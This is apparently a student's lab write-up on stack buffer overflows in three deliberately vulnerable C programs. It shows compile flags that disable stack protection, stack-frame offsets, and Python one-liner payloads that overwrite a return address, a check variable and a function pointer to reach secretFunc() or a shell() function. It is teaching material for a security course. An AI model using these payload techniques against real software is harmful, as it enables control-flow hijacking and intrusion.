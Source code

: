 # LAB1
**Run virtual environment by Docker** 
>docker run -it --privileged -v "C:\Users\Kiet\Documents\huy\ute\INSE\Security-labs\Software\buffer-overflow:/home/seed/seclabs" img4lab

## 1. File bof1.c

**Summarizing**

    Using 'gets(array)' to exploit a buffer overflow and execute the secretFunc() function.

**Steps**
- Stackframe.

    ![alt text](./images/bof1-stackframe.jpg)

- Compile bof1.c
    >gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
- Find the memory address of the secretFunc() function.
![alt text](./images/bof1-1.png)

- Find the control transfer memory locations (usually the Return address locations) to insert the memory address of the secretFunc() function, to call and execute the secretFunc() function.
 - According to the stackframes above, the control transfer memory location (return address) is 204 bytes away from the beginning of the array. Insert 204 'a' characters to reach the exact return address memory location, then insert the address of the secretFunc() function to complete.
    >echo $(python -c "print('a'*204 + "\x6b\x84\x04\x08")")|bof1.out

    ![alt text](./images/bof1-2.png)

## 2. File bof2.c

**Summarizing**

    In this case, the array buf[] has 40 elements, but the fgets() command reads up to 44 elements (fgets(buf, 45, stdin)), with the last element reserved for \0, the null terminator character.
=> We rely on the last 4 elements to modify the check.

**Steps**
- Stackframes.

    ![alt text](./images/bof2-stackframe.png)

- Compile bof2.c
    >gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
 - According to the stackframes above, the buf[] array has 40 bytes. Insert 40 'a' characters to reach the exact memory location of the check variable, then insert "xdeadbeef" as required to complete.
    >echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')")| ./bof2.out

    ![alt text](./images/bof2-1.png)

## 3. File bof3.c

**Summarizing**

    In this case, the buf[] array has 128 bytes, but the fgets() command reads up to 133 bytes.

=> We rely on 4 bytes to overwrite the address of the addition function with the address of the shell function

**Steps**
- Stackframes.

    ![alt text](./images/bof3-stackframe.png)

- Compile bof3.c
    >gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2

- Find the memory address of the shell() function.

    ![alt text](./images/bof3-1.png)

   
 - According to the stackframes above, the buf[] array has 128 bytes. Insert 128 'a' characters to reach the exact memory location of the func variable, then insert the address of the shell() function "x0804845b" to execute the shell() function as required to complete.
    >echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')")| ./bof3.out

    ![alt text](./images/bof3-2.png)

**Old Concepts**
- **Return address** is the address in memory where the program will continue execution after a function ends. When a function is called, the address of the next instruction (after the function call) is saved on the stack. This is the return address.
- **ESP (Extended Stack Pointer)** contains the address of the current top of the stack. When data is pushed onto the stack, ESP decreases, and when data is popped from the stack, ESP increases.
- **EBP (Base Pointer)** When a function is called, the addresses of local variables and parameters are stored at fixed positions relative to EBP. This makes it easy to access these variables throughout the function's execution.
